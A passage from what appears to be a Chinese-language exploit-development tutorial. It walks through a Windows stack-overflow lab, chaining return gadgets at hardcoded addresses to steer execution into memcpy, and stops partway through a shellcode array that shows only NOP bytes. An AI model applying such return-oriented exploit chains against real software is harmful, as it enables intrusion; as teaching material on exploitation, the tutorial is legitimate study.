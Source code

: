 <img src="images/09/第二次调整ebp后内存状态.png">

先来解决第一个问题，目前 ESP 指向 EBP 的位置，在执行完 RETN 0x4 指令之后 ESP 指向 EBP+0x8 的位置，此时只需要类似 POP RETN 的指令就以在执行完 RETN 后让 ESP 指向 EBP+0x10。我们就在当前 EBP 的位置放置一条类似 ```POP RETN``` 的指令，本次实验中选择``` POP ECX RET```使ESP再次+0x8，指令地址为 0x7CA6785F。


再来分析第二个问题，在执行完 PUSH 操作后收回程序控制权的最佳位置在 EBP+0x14，因为在这个位置执行 RETN 指令既保证了 memcpy 参数不被破坏，又可以减小 shellcode 长度。故在执行完 PUSH 操作后我们只需要 POP 两次就可以让 ESP 指向 EBP+0x14，所以 JMP EAX 指令中的 EAX 只要指向类似 POP POP RETN 指令即可。然后在 EBP+0x14 位置放置 memcpy
函数的切入点 0x7C94AFAC（```MOV ESI,DWORD PTR SS:[EBP+C]```），这样程序在执行类似 ```POP POP RETN``` 指令中 RETN 时就可以转入 memcpy 函数中执行复制操作了。

我们按照以上分析和 memcpy 对参数的要求来布置 shellcode，代码如下所示。

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
```